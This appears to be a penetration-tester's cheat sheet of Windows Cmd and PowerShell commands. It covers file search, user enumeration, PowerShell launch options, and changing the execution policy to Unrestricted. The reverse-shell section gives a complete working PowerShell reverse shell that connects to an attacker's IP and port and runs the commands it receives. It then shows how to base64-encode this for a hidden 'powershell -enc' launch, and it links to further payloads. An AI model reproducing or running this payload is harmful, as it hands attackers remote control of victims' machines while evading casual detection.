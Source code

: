 # Regular Cmd and Powershell commands

## Cmd

### Find and search files

Find:
```
dir /s *.txt
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
```
and search:
```
find "some string" somefile.txt
find """string in double quotes""" anotherfile.txt
find /i "case insensitive" file.txt
find /?
```
Count lines:
```
find /c /v "" file.txt
```

RegExp: 
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- https://www.windows-commandline.com/findstr-command-examples-regular/
```
findstr pattern filename.txt
```

### Enumeration

```
net user
net localgroup
```

---

## Powershell

About `powershell.exe`: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1

### Options

Regular options:
- NoLogo
- NoProfile: no custom configuration
- NonInteractive
- ExecutionPolicy: bypass
- EncodedCommand: same as `-enc`
- WindowStyle: `-w hidden`

### Find files

```
Get-ChildItem -Recurse -Include *.txt -File -ErrorAction SilentlyContinue -Path 'C:\path\to\dir' 
```

### Change the execution policy

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Reverse shell

In a Powershell prompt, build the base64 string:
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("$AttackerIp",$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
```
Usage: `powershell -enc base64_encoded_long_string`

Build the base64 string in Linux:
- https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/powershell_powercat_encoding.py

References:
- https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1
- https://github.com/darkoperator/powershell_scripts/tree/master

### Enumeration

```
Get-LocalUser
```
